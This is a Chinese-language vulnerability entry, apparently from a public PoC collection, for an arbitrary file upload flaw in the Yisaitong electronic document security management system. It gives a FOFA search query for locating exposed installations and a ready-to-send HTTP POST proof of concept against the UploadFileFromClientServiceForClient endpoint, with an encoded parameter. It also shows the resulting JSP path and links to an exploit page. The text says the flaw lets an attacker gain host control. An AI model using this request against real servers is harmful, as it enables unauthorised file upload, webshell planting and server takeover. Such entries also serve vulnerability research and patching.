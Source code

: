 # 亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 任意文件上传漏洞

## 漏洞描述

亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，获取主机权限

## 漏洞影响

<a-checkbox checked>亿赛通 电子文档安全管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="亿赛通-电子文档安全管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662547302195-56a45dcd-8ed2-47e9-b0b7-1ed85f849269.png)

验证POC

```plain
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Content-Length: 1

Test
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1692098730985-b4483468-8952-4376-a7f7-a61f80f828de.png)

```plain
/tttT.jsp
```

## 参考链接

<a-checkbox checked>https://github.com/di0xide-U/YSTupload/blob/main/exp.md</a-checkbox></br>